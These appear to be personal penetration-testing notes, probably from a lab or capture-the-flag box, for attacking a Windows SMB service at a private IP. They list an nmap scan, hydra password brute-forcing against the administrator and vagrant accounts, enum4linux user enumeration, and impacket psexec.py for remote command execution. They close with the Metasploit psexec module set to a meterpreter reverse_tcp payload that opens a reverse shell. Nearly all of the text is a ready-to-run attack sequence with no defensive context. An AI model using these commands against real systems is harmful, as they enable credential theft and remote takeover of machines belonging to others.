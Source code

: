 - most probaply eternalblue vuln if not then proceed
- cat /etc/hosts
- nmap -sV -sC -p 445 10.0.31.252 
- hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.31.252 smb
- hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.31.252 smb
- enum4linux -u vagrant -p vagrant -U 10.0.31.252
- locate psexec.py
- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@10.0.31.252
- to get meterpreter session we can use msf modules psexec
	- use exploit/windows/smb/psexec
	- set payload windows/x64/meterpreter/reverse_tcp